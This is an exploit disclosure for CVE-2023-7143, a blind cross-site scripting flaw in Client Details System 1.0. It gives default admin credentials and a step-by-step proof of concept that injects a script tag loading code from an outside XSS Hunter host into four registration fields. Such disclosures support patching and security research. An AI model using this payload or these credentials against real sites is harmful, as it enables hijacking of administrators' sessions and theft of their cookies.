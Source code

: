 # CVE-2023-7143_Client_Details_System-Blind_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7143_Client_Details_System-Blind_Cross_Site_Scripting
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7143

## References: 
+ **CVE-2023-7143:** https://vuldb.com/?id.249146
+ https://www.cve.org/CVERecord?id=CVE-2023-7143

## Description:
Client_Details_System 1.0 allows Blind Cross-Site Scripting via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Client_Details_System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Login with `admin`:`client123`
+ Go to Create Users: "http://localhost/clientdetails/admin/regester.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Fill the form parameters 'fname', 'lname', 'email' and 'contact' with the payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![7-1](https://github.com/h4md153v63n/CVEs/assets/5091265/51ded0aa-4808-4b61-896e-e8e99a315a73)
<br>
<br>
![7-2](https://github.com/h4md153v63n/CVEs/assets/5091265/51f60b4d-0fe7-478c-884c-f16060b25fea)
<br>
<br>
![7-3](https://github.com/h4md153v63n/CVEs/assets/5091265/f195eb57-e2c2-4d70-b81f-ba46819c6ab4)
<br>
<br>
![7-4](https://github.com/h4md153v63n/CVEs/assets/5091265/588bd279-e6dd-4350-a2ce-5bb4f8097be4)
<br>
<br>
![7-5](https://github.com/h4md153v63n/CVEs/assets/5091265/1460887d-799b-4999-8f0f-3433393fe77b)
<br>
<br>
![7-6](https://github.com/h4md153v63n/CVEs/assets/5091265/ff4effde-880b-49bc-8aba-b8cc3885b0f6)
